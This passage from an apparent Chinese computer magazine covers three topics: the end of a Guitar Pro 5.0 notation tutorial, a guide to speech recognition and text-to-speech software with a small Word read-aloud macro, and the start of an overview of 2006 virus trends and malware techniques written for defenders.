- **(3) 利用虚拟钢琴键盘输入音符**
方法同上，如图15所示。


- **(4) 用MIDI乐器直接输入音符**
Guitar Pro 5.0支持MIDI乐器直接输入，输入设备可在“选项→MIDI设定”中进行设置，见图16。由于大部分爱好者不具备这样的条件，具体不再赘述。

作为一首乐曲，输入音符后，还必须通过“符号”工具栏（见图17）设置音符的时值、设置附点音符、休止符等。在“符号”工具栏中还可以设置延音线，改变符号方向，设置3连音等操作。


提示：如果要输入和弦，不必按照和弦中的音符逐个输入，只须按照前面介绍过的方法打开“和弦”窗口，在其中选择需要的和弦，即可自动在相应的位置插入和弦。

#### 6. 修饰音符

我们都知道，吉他演奏中有许多特殊技法来对音符进行修饰，这些都需要在曲谱中体现出来，这就用到了“音效”工具栏，如图18。“音效”工具栏中包括了“闷音”、“重音”、“和声”、“捶/击弦”、“颤音”、“推弦”、“划弦”、“震音”、“弱音”、“点弦”、“哇音”、“延音”、“贝司勾击弦”等24类音符修饰技法。用户可以根据实际情况选用。


另外，通过“标记”（六线谱）工具栏还可以设置拨片弹拨方向以及和弦扫弦方向等，见图19。


#### 7. 小节设置

在编辑乐谱的过程中，小节的设置也是一个必须的工作。

- **第一步：检查小节编辑情况**
把输入光标向后移动的时候，Guitar Pro 5.0会自动根据预先设定的拍号检查是否完成该小节的编辑。如果完成则新建一个小节；如果没有完成则在本小节内添加一个与上一步输入时值相同的节拍。Guitar Pro 5.0窗口的最下方的状态中显示有当前小节的编辑完成情况，包括“小节已完成”、“小节未完成”和“超出小节范围”三种情况。

- **第二步：编辑小节**
在编辑曲谱过程中，通过剪切、复制、插入小节的操作可以大大提高编辑效率。
使用工具栏上的“插入小节”按钮，或者选择“编辑→插入小节”命令可以在当前小节前面增加一个空白小节。
使用工具栏上的“剪切”按钮，或者选择“编辑→剪切”命令，可以剪切当前小节。
使用工具栏上的“复制”按钮，或者选择“编辑→复制”命令，可以复制当前小节。
使用工具栏上的“粘贴”按钮，或者选择“编辑→粘贴”命令，可以将剪切或复制的小节粘贴到相应的位置。
选择“编辑→清空小节”命令，可以清空指定小节中的内容。

提示：在进行以上操作的过程中，程序会弹出相应的对话框，供用户选择源小节和目的小节，以及操作针对的音轨，请根据实际情况进行设置。

- **第三步：设置小节标记**
单击工具栏上的“双重小节”按钮，或者选择“小节→双重小节”命令，可以设置当前小节末的小节线为双平行线，这对 Guitar Pro 播放没有影响，仅仅用来表示乐谱的进入一个新的段落。
单击工具栏上的“覆奏始端”按钮，或者选择“小节→覆奏始端”命令可以设置当前小节的开头为重复演奏的开始位置。
单击工具栏上的“覆奏终端”按钮，或者选择“小节→覆奏终端”命令可以设置当前小节的末尾为重复演奏的返回位置并可在弹出的对话框中设置其重复次数。
单击工具栏上的“交替结束”按钮，或者选择“小节→交替结束”命令，可以在弹出的对话框中设置当前小节在第几遍重复演奏过程中跳出。

#### 8. 编辑音轨

经过以上的工作，基本就完成了创建一个乐谱文件的基本设置，但是这样创建的乐谱还只有一个音轨，如果想创建多音轨乐谱的话，那么还需自行增加音轨。

- **第一步：新增音轨**
单击工具栏中的“新增音轨”按钮，或者选择“音轨→新增”命令，或者按下快捷键“Shift+Ctrl+Insert”，会弹出“新增音轨”对话框，如图20。在其中选择新增音轨的类型和位置。


- **第二步：设置音轨属性**
上一步设置完后，接着单击“确定”按钮，此时打开“音轨特性”对话框，见图21。其中包括了与当前音轨相关的各种属性，包括名称、弦数、调音方式、琴格数、变调夹、符号、风格等。根据需要设置各选项的参数，完毕后单击“确定”按钮，即可新建一个音轨或者应用所设属性。另外，选择音轨后，单击“音轨属性”按钮，也可打开“音轨特性”对话框，用户可以随时对音轨属性进行设置。


- **第三步：选择乐器及音色**
Guitar Pro 5.0内置了包括了各种类型的钢琴、吉他、提琴等127种乐器音色，用户可以任意挑选一款乐器以模拟其音色。在音轨设置区中的“乐器”栏中单击，可以打开“乐器”对话框，见图22。当选择吉他、贝司等乐器时，右侧的RSE音色库选项被激活，可以在其中选择不同的音色库种类、乐器效果等，见图23。


- **第四步：使用效果器**
我们在演奏电吉他的时候，必然会用到效果器，这可以使得一把乐器可以演奏不同的音色。相应的，在编辑乐谱的时候，有些朋友常常使用多个音轨表示同一把吉他，即用不同音轨代表不同的音色演奏段落。这样做，虽然有一定的好处，但如果音色变化较多较频繁，会使乐谱变得杂乱，使阅读者一时搞不清乐谱是由几种乐器演奏的。这种情况下，采用 Guitar Pro 附带的“综合参数变化表”即可轻松解决这些问题，如图24。在其中，我们可以轻松地实现音色的切换、音量的增减、节奏的改变等功能。这样一来，一种乐器就可以只用一条音轨了，也就相当于电吉他接通了效果器。

提示：在使用了综合参数变化表的小节处会标识有一个红点，表示从此处开始，乐谱的演奏效果将按综合参数变化表的设置而改变。

#### 9. 添加歌词

乐谱编辑完成后，如果有需要还可以添加歌词，在 Guitar Pro 5.0 中添加歌词也很方便。单击工具栏中的“谱表信息”按钮，或者选择“文件→谱表信息”命令，打开“谱表信息”对话框，然后选择“歌词”选项卡，见图 25。在“歌词”选项卡中，“应用到音轨”选项用于设置歌词应用到哪个音轨；“行 1、行 2……”各标签分别用于编辑各行的歌词，也就是我们通常说的各段，最多可以有 5 行；“开始小节”下拉列表框用于设置歌词起始的小节；“剪切”、“复制”和“粘贴”三个按钮用于编辑歌词。在编辑歌词的过程中通过适时地按下空格键可以使歌词准确地对应到乐谱的相应位置，见图 26。


#### 10. 乐谱输出

编辑好的乐谱，我们可以直接保存为 Guitar Pro 文件，即 GP5 文件，也可直接打印输出，还可以导出为 MIDI、WAVE、ASCII、BMP、MusicXML、PDF、Guitar Pro 4 等多种格式的文件。


- **导出为 MIDI 文件**
选择“文件→导出→MIDI”命令，可以将乐谱导出为 MIDI 文件。MIDI 文件具有较好的通用性。这样形成的 MIDI 文件可以在支持 MIDI 文件的数字设备上播放，也可以在 CakeWalk 等音序软件中进行编辑。

- **导出为 WAVE 文件**
选择“文件→导出→WAVE”命令，将会弹出“WAVE 输出”对话框，见图 27。在其中可以选择录音驱动、目标文件的质量等属性。设置完毕后单击“确定”按钮，在弹出的“另存为”对话框中设置文件名及存储路径。单击“保存”按钮，将会弹出图 28 所示的对话框，提示用户可以用“播放/停止”按钮控制录音。确认后，按下工具栏中的“播放”按钮，开始播放乐谱并录制 WAVE 文件，录制完毕后，将会弹出对话框，提示用户录制完成。


将乐谱导出为 WAVE 文件，实际上是利用了 Guitar Pro 5.0 的内录功能，这种方式利用程序的内部机制，根据用户所编辑的乐谱，在播放的过程中，将调用音源中的声音逐个地迭加起来，最后录制成一个 WAVE 文件。因此，这样形成的文件要比通过录音软件得到的文件信噪比高，而且没有任何乐曲外的杂音。

## 六、利用 Guitar Pro 5.0 记谱

Guitar Pro 5.0 不仅是学琴、记谱的好帮手，同时也是一款作曲的好工具。利用系统附带的钢琴键盘和吉他指板可以很方便地输入音符，并以五线谱记录下来。当然如果手头有一架 MIDI 键盘或其他 MIDI 乐器，那更是如鱼得水，方便至极。连通电脑，打开 Guitar Pro 5.0，设置为 MIDI 输入，在演奏的同时，已经自动把谱记了下来，省去了很多麻烦。

Guitar Pro 5.0 还有许许多多功能和用途，限于篇幅，这里无法一一列举，读者朋友们可以在使用过程中，逐渐去发现和探索！祝愿大家在音乐的海洋里，畅快遨游。

## 君子动口不动手——电脑语音应用指南

文/龚师傅

在整个自然界，人类的发音能力绝对要排在第一位，因此人类一直就很迷信自己的声音。许多神话传说描述了人们对声音的各种向往，大家还记得“芝麻开门”这一“名言”吧？
人们期待着能够借助声音来完成越来越多的事情，通过语音来控制电脑就是梦想之一。例如，对着麦克风说“上电脑爱好者网站”，将自动登录电脑爱好者网站，或者让电脑将你说的话转变为文字、将保存的文字朗读出来，这些都是人们长期以来梦寐以求的事情。随着计算机性能飞速提升，电脑在语音方面的应用，早已不仅仅局限于带动音箱发声了，语音识别和语音合成技术让电脑“听说”能力越来越强。下面就为大家谈谈在个人电脑领域，语音应用技术的相关情况。

### 一、语音识别技术概述

语音识别的研究工作大约开始于50年代，Bell实验室David等人研制成功了第一个可识别十个英文数字的语音识别系统Audry。60年代，语音识别得到了进一步发展。这时期的重要成果是提出了动态规划(DP)和线性预测分析技术(LP)，对整个语音识别、语音合成、语音分析、语音编码的研究发展产生了深远影响。随后LP技术得到进一步发展，动态时间归正技术(DTW)基本成熟，并提出了矢量量化(VQ)和隐马尔可夫模型(HMM)理论，实现了基于线性预测倒谱和DTW技术的特定人孤立语音识别系统。而HMM模型和人工神经元网络(ANN)在语音识别中的成功应用，使美国率先研制出了非特定人、大词汇量、连续语音识别系统SPHINX，被认为是语音识别历史一个里程碑。进入90年代后，随着个人电脑普及和多媒体时代的来临，语音识别系统从实验室走向了实用和普及（见图1）。


语音识别技术的应用领域非常广泛，对于企业用户而言，语音识别软件可助企业降低客户服务基础建设及人员支出，而对于个人用户而言，语音识别让我们甩掉键盘鼠标，通过语音命令进行操作，不仅可以带给我们全新的控制电脑的体验，也具有很多实用价值，比如减轻单纯用手眼操作电脑带来的健康损伤。而对某些残疾人士来说，用语音控制电脑，也许是他们使用电脑的唯一途径，作用就更加重要了。

### 二、语音识别基本原理

语音识别是模式识别的一个分支，又从属于信号处理科学领域，同时与语音学、语言学、数理统计及神经生物学等学科有非常密切的关系。语音识别的目的，就是让机器“听懂”人类口述的语言，这里面包括了两方面的含义：其一是逐字逐句听懂并转化成书面语言文字；其二是对口述语言中所包含的要求或询问加以理解，做出正确响应，而不拘泥于语音正确转换成文字。
自动语音识别技术有三个基本原理：首先，语音信号中的语言信息是按照短时幅度谱的时间变化模式来编码；其次，语音是可以阅读的，即它的声学信号可以在不考虑说话人试图传达的信息内容的情况下用数十个具有区别性的、离散的符号来表示；第三，语音交互是一个认知过程，因而不能与语言的语法、语义和语用结构割裂开来。一个典型语音识别系统的实现过程如图2所示。


预处理，包括语音信号采样、反混叠带通滤波、去除个体发音差异和设备、环境噪声影响等，并涉及到语音识别基元的选取和端点检测问题。
特征提取，用于提取语音中反映本质特征的声学参数，如平均能量、平均跨零率、共振峰等。
训练，是在识别之前通过让讲话者多次重复语音，从原始语音样本中去除冗余信息，保留关键数据，再按照一定规则对数据加以聚类，形成模式库。
最后是模式匹配，是整个语音识别系统的核心，它是根据一定规则（如某种距离测度）以及专家知识（如构词规则、语法规则、语义规则等），计算输入特征与库存模式之间的相似度（如匹配距离、似然概率），判断出输入语音的语意信息。

### 三、常见语音识别软件简介

从上面的内容中，我们也许会感觉语音识别技术是一门比较高深的技术，其实在具体应用上还是非常简单的。在个人电脑上就有不少语音识别软件，下面给大家作一下简单介绍，感兴趣的朋友可以自行安装试用。这样我们就可以尝试不使用鼠标、键盘而通过声音来操作电脑和输入汉字了。

#### 1. IBM语音识别系统ViaVoice
IBM ViaVoice 语音识别系统是诞生较早，发展比较成熟的一款软件，该系统可用于声控打字和语音导航。只要对着微机讲话，不用敲键盘即可打汉字，每分钟可输入100个以上的汉字，系统识别率可达95％以上。该系统使用便利，特别适合于起草文稿、撰写文章和准备教案，是文职人员、作家和教育工作者的良好助手。

对 ViaVoice 语音识别系统，IBM潜心研究了26年，在全球销售已达一百万套以上。记得大概在十年前我们就可以试用这款软件，当时感觉识别率并不算高。但是现在，随着软硬件技术的发展，这款软件的性能和功能有了较大提升。如果你想在电脑上体会语音识别的乐趣，总体而言，ViaVoice软件是特别值得推荐的，而且IBM还开发了支持Linux系统的 ViaVoice 软件，同时 ViaVoice 也是很多语音应用系统的基础平台。 ViaVoice包含了英语、汉语等各种语言的版本，而且提供了若干特殊的“主题”来帮助你进一步提高对专有名词的识别准确度。

#### 2. Dragon NaturallySpeaking Preferred
Scansoft的 Dragon NaturallySpeaking Preferred 也是一款优秀的语音识别软件，快速好用，它的听写、改错和语音控制功能都相当出色。它的Vocabulary Optimizer（词汇优化器）可以适应你的书写风格，而Performance Assistant（性能助手）则可以根据你的口述习惯最大程度地提高识别速度。新的自动标点符号功能不再需要你口述逗号或句号。有了这些工具之后，NaturallySpeaking 能让你得到很高的识别准确度。

我们可以轻松地用语音来操纵并修改我们的听写结果，而这一点在IBM ViaVoice 中就不大容易做到，只要你说一声“修改单词”，它就可以将光标移动到前一个单词进行修正，非常智能。对于不同的应用程序，它都提供了上下文相关的 Sample Commands（命令示例）来帮助你使用语音进行控制。你还可以在命令浏览器中加入自己定制的命令。不过这款软件目前似乎还没有推出中文版本。

#### 3. 语音专家和语音大师
上面介绍的两款软件都是老外的产品，而且都是体积庞大的“大家伙”，这里要介绍的“语音专家”是一款国产的语音识别软件，体积小巧，你可以通过麦克风输入一些语音命令，来对计算机进行操作。它把电脑使用过程中经常使用的操作，比如打开注册表编辑器，打开记事本程序等，制作成语音命令，你只要通过麦克风输入指定的语音，就可以执行这些操作。比如，你通过麦克风说“注册表”，就立即打开注册表编辑器，这样，就减少了操作步骤，减轻了劳动。还可以通过语音来输入汉字。

“语音大师”是使用微软的语音识别引擎开发的一款语音识别软件，它可以使用语音命令在任何可以输入文字的地方输入文字，在使用这款软件以前需要你的计算机上安装微软公司出品的中文语音识别引擎，使用这款软件可以提高文字的输入速度。

其他国产的语音识别软件还有 Duttv++ 语音识别系统、天信语音识别系统、世音通语音识别系统等。不过这些软件和语音大师一样，没有自己的语音识别引擎，而且都需要付费注册后才能正常使用。

#### 4. 语音识别软件通用技巧
各种语音识别软件的使用方法都大同小异，要提高识别率，我们关键要注意以下几点：

- 一是在电脑上要配备高性能声卡和麦克风，其中麦克风品质及相关设置尤其重要。麦克风应是内置了噪声过滤器的高品质设备。输入语音的质量直接影响到语音识别率。如果使用质量低劣的麦克风，则识别率将大大降低，甚至会到使人无法接受的程度。另外大家可以尝试用USB接口的麦克风，能有效降低输入时的噪音（见图3）。
- 其次，输入时要尽量保持一个安静地环境，而且按照软件的要求说发音尽量标准的英语或中文。请使用一致而平缓的音调讲话。如果说话声音太高或太轻，计算机可能无法识别你说的是什么。
- 最后便是要反复练习，使软件适应自己的声音。任何一款语音识别软件，刚开始使用时对用户的声音识别都不会十分准确。必须对它进行一番“调教”，然后才能准确识别使用者的声音。具体说就是按照用户手册中的词语反复地朗读。经过长时间的听写、改错和重复训练之后，大多数语音识别软件的准确度可以上升到96％至98％之间。


## 三、语音合成技术原理及应用

前面谈了语音识别技术的相关情况，这只涉及到电脑“听力”的问题，下面再给大家简单谈谈电脑“说话”的能力，即语音合成技术的简单原理及相关应用。

电脑语音合成技术也被称为 TTS（文语转换）技术，正好和语音识别技术相对应，语音合成是通过机械的电子的方法产生人造语音的技术，具体说它是将计算机自己产生的、或外部输入的文字信息转变为可以听得懂的、流利的汉语（或其他语言）口语输出的技术。语音合成技术经历了一个逐步发展的过程，从参数合成到拼接合成，再到两者的逐步结合，其不断发展的动力是人们认知水平和需求的提高。目前，常用的语音合成技术主要有：共振峰合成、LPC合成、PSOLA拼接合成和LMA声道模型技术。
TTS技术中，语言学处理起着重要的作用，主要模拟人对自然语言的理解过程，文本规整、词的切分、语法分析和语义分析，使计算机对输入的文本能完全理解，并给出后两部分所需要的各种发音提示。然后是韵律处理，为合成语音规划出音段特征，如音高、音长和音强等，使合成语音能正确表达语意，听起来更加自然。最后是声学处理，根据前两部分处理结果的要求输出语音，即合成语音。
和语音识别相比，TTS技术在行业及个人电脑领域的应用更加广泛。常被用在呼叫中心、构筑语音门户网站的ASP，以及提供语音服务的VAR（Value-Added Resellers）等用途。比如大家经常使用的电话银行系统就用到了语音合成技术，可以将任意数字转化为语音报给你。而对于个人用户而言，比如你是做文字工作的，肯定遇到过这种情况：将文稿录入电脑中后，你不得不一边看稿子一边看显示器上的文字进行校对，看起来很是费劲，如果用语音合成软件就能把电脑上的文字读出来，而你只需要用眼看稿子，用耳听就能校对。不仅提高了工作效率，还能减少电脑屏幕对眼睛的伤害。下面就为大家介绍几款相关的语音合成软件：

#### 1. 即时语音提示 & 校对软件 InsTalk
它有两种工作状态，一种是在使用键盘输入数字和英文字符时，电脑可以跟随录入的字符即时发出相应的语音提示，另一种是让电脑朗读各种文字文件。使用软件的自动阅读功能可以把选中的文字（中文、数字和英文字母等）朗读出来，以供使用者欣赏或进行校对。
这软件的特色之一是可以设置提示和朗读时语言发声的速度，可在比正常速度快一倍和慢一倍的范围内无级调整。任意选择提示和朗读的标点符号。该软件支持汉字国标一二级字库所有的汉字，运行速度较快，汉字音发音很好，支持剪贴板和编辑窗口。

#### 2. 通用电脑语音系统
这款软件除了整篇朗读外，还有很多特殊功能：
能“打一字读一音”，不需要任何操作，即可以实现打一字、发一音，不仅能使英文字母发音，还能用标准普通话阅读汉字，不影响软件运行速度。
“自动定时计划任务语音提醒”功能，只要设定时间，输入你的备忘内容，到时候电脑就会将你设定的“备忘内容”朗读出来提醒你。“语音计算器”，无论输入数据，还是计算结果，都可以准确地为你朗读数据，保证输入和计算结果的准确性。

#### 3. 读霸
这款软件重点在语音校对上，因此文字发音标准，可以智能处理部分多音字、数字、标点、音调等。输入时可逐字朗读，亦可遇标点符号时整句一起朗读，软件运行速度很快。读音比较好听，还能智能化处理少量英文单词（不是一个一个字母地读）和数字（如365天，连续读为三百六十五天，而不是3、6、5天）。

#### 4. Read2U
很优秀的一款语音朗读软件，而且是免费的，这款软件具有良好的音质。它不是机械地模拟电子声音，语音库中所有声音都是真人发音，语音清晰、悦耳。而且能在朗读文章的同时播放你所喜欢的音乐、歌曲。另外它对于朗读的各项参数具有开放性。用户可以调节所有有关朗读的参数，包括朗读的音量、频率、每个字的读音、每个读音的长度、以及多音字词组控制等。它还支持脚本功能，能自动朗读一篇或多篇文章，能在背景中加入音乐伴奏，能实现定时提醒、自动关机等外部命令（见图4）。


图4 不错的语音合成软件Read2U

除了上面介绍的几款软件外，PC上语音合成软件还有很多，比如语音朗读精灵、能说会道、语音朗读王、电子鹦鹉、电脑播音王等，甚至在“超级解霸”中也集成了语音朗读功能，这些软件大多数都采用了微软语音合成引擎，朗读效果没有大的区别。

## 四、微软语音识别引擎简介

作为业界老大，微软在语音识别及合成方面也做出了很多尝试。从Office XP开始，微软引入了语音识别引擎。如果你在Microsoft Office XP/2003中安装了语音识别功能，那么就可以在所有Office程序中使用语音识别，并可以在其他启用语音识别功能的程序中使用此功能。微软语音识别引擎能够使用特定的程序将文本插入到文档，并控制软件运行。

#### 1. 使用语音识别训练向导
在系统安装完毕并开始工作后，你必须训练该引擎，使之适应环境和说话风格。为做到这一点，请单击“语音识别”选项卡，单击“训练配置文件”，然后按照“声音训练向导”中的说明来训练系统，让它识别背景噪音，如风扇、空调或其他办公室声音。引擎将按你的说话风格进行调整，包括口音、发音甚至习惯用语。在训练语音识别引擎时，语音识别器使用“声音训练向导”来适应你说话的声音、口音、说话方式甚至生词或惯用语。即使只训练十分钟，也可以改进语音识别能力。系统还会在实际使用过程中不断适应你的语音特点，识别能力会越来越强。建议你至少花费15分钟的时间训练计算机。进行的训练越多，识别的准确率就越高。

## 什么是语音识别引擎
语音识别使操作系统能够将所说的话转换为书面文字。一种叫作语音识别引擎的内部驱动程序可以识别语音并将其转换为文字。语音识别引擎可以随操作系统安装，也可以在以后随其他软件安装。在安装过程中，支持语音的软件包（如字处理程序和Web浏览器）可以安装自己的引擎，或使用现有的引擎。第三方供应商还提供了其他引擎。这些引擎常常使用特定的术语表或词汇表，例如，它们可能会使用医学或法律方面的专门的词汇表。它们还可以使用不同的声音，允许使用诸如英国英语之类的地区性口音，或使用另一种完全不同的语言（如德语、法语或俄语）。微软语音识别引擎是开放式的，因此目前国内很多语音识别及合成软件都采用了该引擎（见图5）。


#### 2. 使用语音识别引擎
将麦克风定位在距你嘴边一英寸或一拇指宽的地方。确保不要放在嘴的正前方，不至直接对着它呼吸。如果在说话时无意中移动了麦克风，请不要忘记将其放回到正确的位置。

启动想在其中使用语音识别的程序，然后单击文档，定位插入点。在语言栏上，单击麦克风（如果麦克风尚未打开）。在工作的时候，可在“听写”和“声音命令”模式之间切换。在说话时，将显示一个蓝色的条，表示计算机正处理你的声音。你说的话被识别后，屏幕上将显示相应的文字。在计算机处理声音的过程中你可以继续说下去，不必等到蓝色条消失之后才接着讲。在显示蓝色条时，应避免使用鼠标或键盘进行键入或其他操作。否则将中断语音识别，你说的话将得不到处理。

- **使用“声音命令”模式：**
    - 若要选择菜单、工具栏、对话框（仅美国英语）和任务窗格（仅美国英语）项，请在语言栏上单击声音命令。
    - 例如，若要更改字体格式，你可以说“字体”以打开格式工具栏上的“字体”框，然后说出一个字体名称。如果你想设置所选文本的格式，则可以说“加粗”或“下划线”。
- 使用微软语音识别引擎不仅能进行语音识别和控制，还能进行语音合成输出，在Excel中，我们可以直接利用其语音功能来朗读表格中的数据和文字，这一功能在校对输入数据时非常有用，但是如果要让Word也能朗读，需要按下面的方法进行操作：

在“工具／宏”下找到VB编辑器，启动编辑器，在左侧选择“Normal”模板，接着在VB编辑器工具下选择“引用”，打开“引用／Project”对话框，在“可使用的引用中选中Microsoft Excel.10.0 Object Library”，最后确定并关闭。选择“插入”的“模块”命令，输入如下代码即可。

```
Option explicit
Dim MyObject As Object
Sub 朗读文本()
Set MyObject = New Excel.Application
MyObject.Speech.Speak (ActiveWindow.Selection)
Set MyObject = Nothing
End Sub
```

## 五、手持设备的语音技术应用

除了电脑，在手机和掌上电脑等手持设备中我们也可以用到语音识别和合成技术。其实早在黑白手机时代，很多手机中就加入了语音控制功能，可以使用语音进行拨号等操作。而现在语音技术更是在手持设备中得到了广泛应用，比如很多PPC GPS软件采用了TTS技术来进行语音导航。这里我主要介绍一下在PPC掌上电脑及智能手机中的语音相关软件。

#### 1. 微软PPC语音控制软件
最近微软发布了专为掌上设备使用的语音控制软件，试用版给特定用户进行评估，据说通过该款软件，只要发出简单的语音指令，无论是Pocket PC或者是Smartphone都能准确地识别，并做出相应的动作。

对于掌上设备来说，这样的功能有助于解决在颠簸的路途PDA触控笔容易出现误点的情况。需要测试该软件的用户，通过申请一个.NET Passport账号，就能轻松地试用这款名为VoiceCommandReq的语音控制软件了。

#### 2. SmartRead for Pocket PC
使用在掌上电脑Microsoft Mobile for Pocket PC(包括Phone Edition)上的语音朗读软件，可以将文本转换成语音(TTS)，并清晰地朗读。软件可以选择中文女声或者英文男声，有“语速”设置功能，还可选择是否朗读标点符号。数字朗读可按数值或者数码选择。使用简单方便，不过这款软件朗读的声音比较生硬，效果欠佳。


#### 3. Cyberon VoiceCommander
这是一款功能很强大的PPC语音控制软件，除了支持语音拨号外，还能让PPC通过识别语音来执行各种命令。有英文、普通话、粤语等不同版本。

## 2006年十大病毒及完全防治方案

文 / 彭文波

### 一、流行病毒新趋势

趋势就是风向标，它反映了一段时间的焦点问题。综合分析各大杀毒软件厂商及安全站点资料，可以发现，本年度病毒出现了如下新趋势。

#### 1. 新病毒增长速度加快，变种增多

网络技术的飞速发展，使得制造新病毒也更加容易。

从瑞星、金山毒霸以及江民、趋势科技等病毒厂商及其站点公布的消息来看，2006年以来，被截获的病毒总量明显上升，但病毒种类数并没有增加，老病毒的新变种占据了其中的大部分。国家计算机病毒应急处理中心发布的《2006病毒疫情调查分析报告》也指出，“木马代理”和“下载助手”开始成为本年度传播最广的两种计算机病毒，这两种计算机病毒可以从指定的网址自动下载木马或恶意代码，运行后盗取用户的账号、密码等信息发送到指定的信箱或网页。另外，还有一些其他典型的病毒：“传奇木马”和“QQ木马”能够窃取用户的游戏账号和密码；“灰鸽子”和“德芙”具有后门功能；SDbot病毒使计算机系统一旦感染后就会成为“僵尸”计算机，受黑客的远程控制；“爱之门”病毒主要通过邮件和系统漏洞传播。

病毒已经成为计算机安全的头号杀手，从2006年病毒发展情况来看，虽然未发生重大的计算机病毒疫情，但电脑病毒疫情和互联网安全状况也出现了一些新的特点。本专题将对2006年病毒发展的新趋势进行综合分析，然后选择一些典型的病毒进行介绍。同时，还将列出本年度比较热门的一些病毒专杀工具，以达到“多管齐下，综合治理”的目的。

#### 2. 带有病毒特征的“流氓软件”层出不穷

在网络文明程度不断提高的趋势下，“流氓软件”却在利益的驱动下背道而驰。所谓“流氓软件”，就是介于病毒和正规软件之间，同时具备正常功能（下载、媒体播放等）和恶意行为（弹广告、开后门）的一种插件形式的软件，流氓软件未经授权却悄悄潜伏在用户电脑上，给用户带来很大危害，是某些公司商业宣传的工具，流氓软件一般很难彻底清除卸载干净。2006年以来，一些由正规互联网公司制作的流氓软件大行其道，软件运行后会定期或随机地释放（或从互联网下载）广告程序、其他的下载器。这些广告程序或下载器带有明显的木马特征，流氓软件和病毒之间的界限已经越来越模糊。此外，利用了加壳和免杀技术的病毒隐蔽性更强，2006年8月初，甚至出现了大量针对主流杀毒软件编写的恶性病毒，导致不少杀毒软件故障频频。

#### 3. 从破坏转向“趋利”的新趋势

以前，大部分黑客攻击只是出于乐趣。如今，更多的病毒攻击开始转向非法获益。本年度，破坏性极大且极具威胁力的“僵尸网络”集合了多种病毒在内，伺机对计算机用户发起攻击，谋取利益，并引发了人们对Windows操作系统的怀疑。这种趋势表现在以下几个方面：

##### （1）盗号木马

这些木马在后台运行，一般用户根本察觉不到机器已经中毒。它们偷偷记录用户的输入信息，比如QQ密码、网络游戏账号、网上银行账号等，并将这些信息直接发送到黑客手中，给用户带来直接经济损失。2006年8月25日发生的光大证券“网银木马”事件就是其中的一个典型案例。

##### （2）“敲诈”病毒

该病毒通过恶意隐藏电脑用户常用的文档，然后要求中毒者向某指定账户打入一定数额的人民币购买其所谓的“正版序列号”进行数据恢复。此外，以“网络钓鱼”为主的欺骗手段越来越多地被黑客所利用，如“ADSL窃密者变种”病毒。

#### 4. 病毒传播手段多元化

随着互联网的不断普及，以网站、电子邮件、U盘以及其他安装软件为手段的攻击不断增加。其中，不少安全措施比较差的网站被放置木马病毒（即“挂马”），用户登录后就会被病毒感染。如“威金蠕虫变种BO(Worm.Viking.bo)”就是采用多种手段的进行传播的典型病毒之一，同时具有文件型病毒、蠕虫病毒、病毒下载器等类病毒的特点，进入用户的电脑之后会窃取用户的网络游戏密码，严重时造成系统完全崩溃。另外，一些老牌的邮件蠕虫仍然存在，但通过电子邮件进行传播的病毒数量已经呈现下降趋势。值得关注的是，由于U盘具有很高的流动性，并且其主要使用地区的安全防范措施不强，导致U盘类病毒的大量泛滥。可见，利用多种传播手段进行传播已经成为病毒发展的新趋势。

#### 5. 利用应用软件漏洞进行攻击的新趋势

现在，病毒攻击者已经不再满足于操作系统漏洞，各种流行应用软件的漏洞越来越受到黑客们的青睐。随着软件功能的日益复杂，软件代码的潜在问题也日益增多，这为黑客提供了更为丰富的开发资源。2006年，微软办公软件Microsoft Office的多个0-Day漏洞被黑客利用进行病毒传播，“间谍王”蠕虫病毒则利用雅虎在线电子邮件系统的漏洞进行传播。这种基于应用程序的攻击和渗透正在慢慢流行起来，应用软件漏洞很可能取代操作系统漏洞成为用户信息安全的主要威胁。

#### 6. “钓鱼”攻击逐渐成为网络黑客攻击的主要手段

据网络安全机构MessageLabs提供的研究报告，“钓鱼”攻击正在逐渐成为网络黑客攻击的主要手段。据悉，钓鱼和木马已经成为流传最广，危害性最大的网络安全隐患，而其涉及范围甚至包括即时通讯软件、社交网络、某些电子商务网站。据反钓鱼网络小组（APWG）透露，在全球范围至少发现了近万个钓鱼网站，涉及130个全球知名品牌。

#### 7. 病毒本土化的新趋势

《2006全国信息网络安全状况病毒疫情调查分析报告》表明，当前我国网络流行病毒的本土化趋势更加明显，很多病毒主要是针对国内一些应用程序专门制作的。在病毒名称中，带有“中国”，以及以国内银行、证券为目标的病毒越来越多。这也表明，国内病毒制作技术也在这两年得到了飞速的提高。为了对付泛滥成灾的流行病毒及流行病毒的变种，许多杀毒厂商和其他软件公司推出了许多优秀的专杀工具。本文将结合流行病毒的趋势，对这些保障电脑安全的卫士进行一次大“阅兵”。

### 二、2006流行病毒及专杀工具大扫描

如同今年耀眼的“超级女声”，在众多的病毒中，也有一些耀眼的“超级病毒”，以及使病毒的破坏性越来越大的“包装”技术。综合分析这些幕后技术，就能了解病毒的来龙去脉，并实施有针对性的防范。

#### 1. 流行的病毒技术分析

到底是哪些病毒技术在幕后指使呢？现在，病毒攻击手段越来越高明。比如，“加壳”就像给病毒文件穿了“马甲”，对于识别能力不强的杀毒软件就会被蒙蔽。从2006年病毒技术的发展情况来看，主要有以下病毒技术作为支撑：

##### 第一，“免杀”技术开始被采用

所谓“免杀”，是指通过特殊技术处理，修改病毒文件，使已知病毒逃过杀毒软件的查杀。目前，许多黑客和病毒制造者通过查找病毒文件中被杀毒软件扫描的特征部分，加以修改，使其特征值与杀毒软件的病毒库不匹配，从而躲过杀毒软件的查杀。因而在对付“免杀”时，对杀毒软件的查毒识别能力要求更高。

##### 第二，“加壳”手段越来越高明

所谓加壳，是一种通过一系列数学运算，或者通过加壳软件，将可执行程序文件或动态链接库文件的编码进行改变，以达到缩小文件体积或加密程序编码的目的。众所周知，目前杀毒软件主要依靠特征码技术查杀病毒。对于脱壳能力不强的杀毒软件，对付此种病毒就需要添加多条不同的特征记录。但是，如果病毒编写者再采用一种新壳加密变形，对于此类杀毒软件来说又是一个新的病毒，从而无法查杀。从2006年病毒的情况来看，大部分病毒文件都进行了“加壳”处理。国内较为流行的“灰鸽子”木马，加壳率几乎达到100%。有些病毒为了躲避杀毒软件的查杀，甚至加了三、四层壳。因此，需要杀毒软件具有相当的“脱壳”能力。

##### 第三，“钩子”技术

钩子是Windows系统中非常重要的系统接口，用它可以截获并处理送给其他应用程序的消息，来完成普通应用程序难以实现的功能。钩子的种类很多，每种钩子可以截获并处理相应的消息，如键盘钩子可以截获键盘消息，外壳钩子可以截取、启动和关闭应用程序的消息等。利用键盘钩子获取目标进程的键盘输入，从而获得各类密码以达到不可告人的目的。现在，很多盗号、盗密码的木马和其他黑客程序都使用了这个技术。

##### 第四，一些应用软件的缺陷为“流氓推广”提供了方便

